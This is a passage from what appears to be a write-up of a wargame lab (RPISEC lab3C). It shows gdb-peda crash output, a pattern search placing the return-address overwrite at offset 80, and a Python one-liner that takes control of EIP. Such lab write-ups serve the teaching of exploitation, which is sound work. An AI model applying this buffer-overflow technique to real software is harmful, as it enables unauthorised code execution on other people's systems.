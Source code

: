 ```nasm
EIP: 0x41414a41 ('AJAA')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41414a41
[------------------------------------stack-------------------------------------]
0000| 0xbffff700 ("fAA5AAKAAgAA6AA")
0004| 0xbffff704 ("AAKAAgAA6AA")
0008| 0xbffff708 ("AgAA6AA")
0012| 0xbffff70c --> 0x414136 ('6AA')
0016| 0xbffff710 --> 0x1 
0020| 0xbffff714 --> 0xbffff794 --> 0xbffff8b4 ("/levels/lab03/lab3C")
0024| 0xbffff718 --> 0xbffff734 --> 0x1f689e16 
0028| 0xbffff71c --> 0x8049c04 --> 0xb7e3c990 (<__libc_start_main>:	push   ebp)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414a41 in ?? ()
gdb-peda$ pattern search
Registers contain pattern buffer:
EIP+0 found at offset: 80
EBX+0 found at offset: 68
EDI+0 found at offset: 72
EBP+0 found at offset: 76
Registers point to pattern buffer:
[ESP] --> offset 84 - size ~15

...[snip]...
```

We know that we overwrite the return address at the offset **80**. We can create a quick proof of concept for ease of use.

```nasm
gdb-peda$ r < <(python -c 'print "rpisec\n" + 80 * "\x41" + "\x42\x42\x42\x42" + 10 * "\x42"')
Starting program: /levels/lab03/lab3C < <(python -c 'print "rpisec\n" + 80 * "\x41" + "\x42\x42\x42\x42" + 10 * "\x42"')
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x1 
EBX: 0x41414141 ('AAAA')
ECX: 0xb7fd8000 ("\nope, incorrect password...\nername....\n")
EDX: 0xb7fce898 --> 0x0 
ESI: 0x0 
EDI: 0x41414141 ('AAAA')
EBP: 0x41414141 ('AAAA')
ESP: 0xbffff700 ("BBBBBBBBBB\n")
EIP: 0x42424242 ('BBBB')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x42424242
[------------------------------------stack-------------------------------------]
0000| 0xbffff700 ("BBBBBBBBBB\n")
0004| 0xbffff704 ("BBBBBB\n")
0008| 0xbffff708 --> 0xa4242 ('BB\n')
0012| 0xbffff70c --> 0xb7feccea (<call_init+26>:	add    ebx,0x12316)
0016| 0xbffff710 --> 0x1 
0020| 0xbffff714 --> 0xbffff794 --> 0xbffff8b4 ("/levels/lab03/lab3C")
```